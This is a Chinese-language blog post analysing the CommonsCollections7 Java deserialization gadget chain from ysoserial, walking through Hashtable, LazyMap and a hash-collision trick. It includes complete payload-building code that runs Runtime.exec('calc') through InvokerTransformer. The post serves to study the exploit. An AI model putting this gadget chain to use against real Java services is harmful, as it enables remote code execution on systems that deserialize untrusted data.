


# [Java反序列化]CommonsCollections7利用链

## 前言

之前Jiang宝的rome链用到了cc7的知识，但是还没有好好看过CC7，正巧今天晚上看Z3ratu1师傅博客的时候看到了他CC7的文章，突然想到了自己一直咕的，就给看看了。

## 分析

因为比较简单，直接看ysoserial的chain了：

```java

    chain:
    java.util.Hashtable.readObject
    java.util.Hashtable.reconstitutionPut
    org.apache.commons.collections.map.AbstractMapDecorator.equals
    java.util.AbstractMap.equals
    org.apache.commons.collections.map.LazyMap.get
    org.apache.commons.collections.functors.ChainedTransformer.transform
    org.apache.commons.collections.functors.InvokerTransformer.transform
    java.lang.reflect.Method.invoke
    sun.reflect.DelegatingMethodAccessorImpl.invoke
    sun.reflect.NativeMethodAccessorImpl.invoke
    sun.reflect.NativeMethodAccessorImpl.invoke0
    java.lang.Runtime.exec
```

`Hashtable`的`readObject`：

```java
    private void readObject(java.io.ObjectInputStream s)
         throws IOException, ClassNotFoundException
    {
        // Read in the length, threshold, and loadfactor
        s.defaultReadObject();

        // Read the original length of the array and number of elements
        int origlength = s.readInt();
        int elements = s.readInt();

        // Compute new size with a bit of room 5% to grow but
        // no larger than the original size.  Make the length
        // odd if it's large enough, this helps distribute the entries.
        // Guard against the length ending up zero, that's not valid.
        int length = (int)(elements * loadFactor) + (elements / 20) + 3;
        if (length > elements && (length & 1) == 0)
            length--;
        if (origlength > 0 && length > origlength)
            length = origlength;
        table = new Entry<?,?>[length];
        threshold = (int)Math.min(length * loadFactor, MAX_ARRAY_SIZE + 1);
        count = 0;

        // Read the number of elements and then all the key/value objects
        for (; elements > 0; elements--) {
            @SuppressWarnings("unchecked")
                K key = (K)s.readObject();
            @SuppressWarnings("unchecked")
                V value = (V)s.readObject();
            // synch could be eliminated for performance
            reconstitutionPut(table, key, value);
        }
    }
```

最后会循环反序列化key和value，然后进入`reconstitutionPut`函数：

```java
    private void reconstitutionPut(Entry<?,?>[] tab, K key, V value)
        throws StreamCorruptedException
    {
        if (value == null) {
            throw new java.io.StreamCorruptedException();
        }
        // Makes sure the key is not already in the hashtable.
        // This should not happen in deserialized version.
        int hash = key.hashCode();
        int index = (hash & 0x7FFFFFFF) % tab.length;
        for (Entry<?,?> e = tab[index] ; e != null ; e = e.next) {
            if ((e.hash == hash) && e.key.equals(key)) {
                throw new java.io.StreamCorruptedException();
            }
        }
        // Creates the new entry.
        @SuppressWarnings("unchecked")
            Entry<K,V> e = (Entry<K,V>)tab[index];
        tab[index] = new Entry<>(hash, key, value, e);
        count++;
    }
```

先计算key的hashCode，然后从tab种取有没有元素的hash等于目前这个key的hashCode而且这个元素的key等于目前的key。

找不到就把它添加到tab中。

如果hash相同的话，会进入`e.key.equals(key)`：

如果`e.key`是`HashMap`的话，会依次调用`AbstractMapDecorator`的`equals`，`AbstractMap`的`equals`函数：

```java
    public boolean equals(Object o) {
        if (o == this)
            return true;

        if (!(o instanceof Map))
            return false;
        Map<?,?> m = (Map<?,?>) o;
        if (m.size() != size())
            return false;

        try {
            Iterator<Entry<K,V>> i = entrySet().iterator();
            while (i.hasNext()) {
                Entry<K,V> e = i.next();
                K key = e.getKey();
                V value = e.getValue();
                if (value == null) {
                    if (!(m.get(key)==null && m.containsKey(key)))
                        return false;
                } else {
                    if (!value.equals(m.get(key)))
                        return false;
                }
            }
        } catch (ClassCastException unused) {
            return false;
        } catch (NullPointerException unused) {
            return false;
        }

        return true;
    }
```

先把能够hash相同的key转换成Map，再对当前Map进行迭代，获得当前`Map`的key和value，最后调用能hash相同的key的get函数：

从这个get函数开始就和`LazyMap`后续链子的利用接上了。

hash相同则是一个trick：

```java
        System.out.println("aa".hashCode()=="bB".hashCode());
        System.out.println("yy".hashCode()=="zZ".hashCode());
```

依次类推。

对于`HashMap`的hash的计算：

```java
    public int hashCode() {
        int h = 0;
        Iterator<Entry<K,V>> i = entrySet().iterator();
        while (i.hasNext())
            h += i.next().hashCode();
        return h;
    }
```

取其所有`key`的hash相加。

所以对于2个HashMap而已，如果key能够Hash碰撞，那么对于HashMap本身来说就是hash相等的。

因此构造：

```java
        // Reusing transformer chain and LazyMap gadgets from previous payloads
        final String[] execArgs = new String[]{"calc"};

        final Transformer transformerChain = new ChainedTransformer(new Transformer[]{});

        final Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        execArgs),
                new ConstantTransformer(1)};

        Map innerMap1 = new HashMap();
        Map innerMap2 = new HashMap();

        // Creating two LazyMaps with colliding hashes, in order to force element comparison during readObject
        Map lazyMap1 = LazyMap.decorate(innerMap1, transformerChain);
        lazyMap1.put("yy", 1);

        Map lazyMap2 = LazyMap.decorate(innerMap2, transformerChain);
        lazyMap2.put("zZ", 1);

        // Use the colliding Maps as keys in Hashtable
        Hashtable hashtable = new Hashtable();
        hashtable.put(lazyMap1, 1);
        hashtable.put(lazyMap2, 2);

        SerializeUtil.setFieldValue(transformerChain, "iTransformers", transformers);

        // Needed to ensure hash collision after previous manipulations
        lazyMap2.remove("yy");
        byte[] serialize = SerializeUtil.serialize(hashtable);
        SerializeUtil.unserialize(serialize);
```

是先处理`lazyMap1`，再处理`lazyMap2`。

之所以要`lazyMap2.remove("yy");`，单纯的还是因为`hashtable.put(lazyMap2, 2);`的时候处理和反序列化的处理类似，提前触发了一遍get：



`map.put(key, value);`导致了第二个HashMap获得了`yy`的key，这样反序列化的时候无法触发：

```java
        if (m.size() != size())
            return false;
```

为了不影响， 所以要把`yy`给去掉。